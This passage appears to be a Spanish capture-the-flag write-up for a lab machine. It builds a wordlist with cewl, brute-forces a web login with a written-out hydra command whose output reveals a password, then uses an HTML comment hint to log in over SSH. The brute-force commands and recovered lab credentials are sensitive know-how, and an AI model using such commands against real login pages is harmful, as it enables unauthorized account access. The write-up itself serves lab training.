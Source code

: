 Info:

```
We have to change this, I told Medusa to protect this more.
```

Solo nos dice ese mensaje por lo que suponemos que sera un usuario, iremos a la pagina web que hay, veremos dentro que hay un boton de `Login` en el que nos lleva a un inicio de sesion, como descubrimos antes que hay un usuario crearemos un diccionario de contraseñas para probar con el usuario en la pagina del login de la siguiente forma.

## cewl

```shell
cewl http://<IP>/ -w dic.txt
```

Esto nos creara un diccionario de palabras de la pagina web de la pagina principal, despues le tiraremos un `hydra` al formulario web con ese diccionario y ese usuario.

## hydra

```shell
hydra -l medusa -P dic.txt <IP> http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-23 15:19:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 138 login tries (l:1/p:138), ~9 tries per task
[DATA] attacking http-post-form://172.18.0.2:80/login.php:username=^USER^&password=^PASS^:Invalid credentials
[80][http-post-form] host: 172.18.0.2   login: medusa   password: enthusiasts
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-23 15:19:14
```

Vemos que nos saca unas credenciales, por lo que las utilizaremos en el login, vemos que nos inicia sesion metiendo dichas credenciales y que vemos una pagina `secreta` pero si inspeccionamos el codigo y bajamos un poco, veremos lo siguiente.

```html
<!-- I hope my boss doesn't kill me, but I tell kinder what a mess medusa made with the message from the port. -->
```

Nos da una pista de un usuario llamado `Kinder` por lo que podremos probar a tirar un diccionario de usuarios como `Kinder` y `medusa`, y en las contraseñas poner el mismo diccionario o probarlo a mano, si nos conectamos por `SSH` poniendo el usuario `Kinder` y como contraseña `medusa` veremos que nos deja entrar.
